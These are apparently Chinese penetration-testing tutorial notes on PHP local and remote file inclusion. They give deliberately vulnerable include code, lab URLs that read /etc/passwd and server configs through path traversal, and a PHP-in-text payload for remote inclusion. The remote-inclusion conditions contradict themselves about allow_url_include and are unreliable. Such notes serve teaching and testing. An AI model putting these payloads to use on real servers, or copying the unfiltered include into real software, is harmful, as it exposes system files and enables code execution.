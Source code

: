 # Web渗透-文件

## 0x01 文件包含漏洞

### 一、本地文件包含

#### 1、源代码

```php
$filename=$_GET['filename']
include $filename   //或include_once,require,require_once

echo "欢迎来到PHP的世界"
```

> 一旦使用include或其他三个文件包含的函数，那么无论包含函数的文件的后缀名是什么，均会当作代码来执行

#### 2、利用条件

php.ini 中 allow_url_fopen=on(默认开启)

用户参数可控且后台代码没有对包含的文件进行过滤

#### 3、利用方式

```shell
http://192.168.2.128/Security/fileinc.php?filename=misc.php&uname=woniu&passwd=123456789

http://192.168.2.128/Security/fileinc.php?filename=/etc/passwd

http://192.168.2.128/Security/fileinc.php?filename=/opt/lampp/etc/httpd.conf

#也可以使用相对路径
http://192.168.2.128/Security/fileinc.php?filename=../../../../etc/passwd

http://192.168.2.128/Security/fileinc.php?filename=C:\User\XXX\xxxx

http://192.168.2.128/Security/fileinc.php?filename=./login.html
```

### 二、远程文件包含漏洞

#### 1、利用条件

php.ini的allow_url_fopen=On和allow_url_include=Off开启

用户参数可控且后台代码没有对包含的文件进行过滤

#### 2、利用方式

```php
txt文件中写入：dbus:x:81:81:System <?php phpinfo();?> bus:/:/sbin/nologin
```
